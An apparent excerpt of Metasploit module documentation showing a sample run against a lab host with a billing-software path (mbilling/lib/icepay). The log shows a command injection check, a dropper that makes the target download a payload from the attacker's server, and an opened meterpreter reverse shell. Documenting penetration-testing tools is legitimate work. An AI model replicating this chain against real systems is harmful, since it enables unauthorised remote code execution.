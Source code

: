 ```ShellSession
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.34:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 4 seconds.
[*] Elapsed time: 4.09 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Using URL: http://192.168.201.8:8080/3X16QTzG27N
[*] Client 192.168.201.34 (Wget/1.21.3) requested /3X16QTzG27N
[*] Sending payload to 192.168.201.34 (Wget/1.21.3)
[*] Sending stage (3045380 bytes) to 192.168.201.34
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.34:55224) at 2023-10-24 17:12:05 +0000
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.34
OS           : Debian 12.2 (Linux 6.1.0-13-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: asterisk
meterpreter > pwd
/var/www/html/mbilling/lib/icepay
meterpreter >
```

## Limitations
No limitations identified.
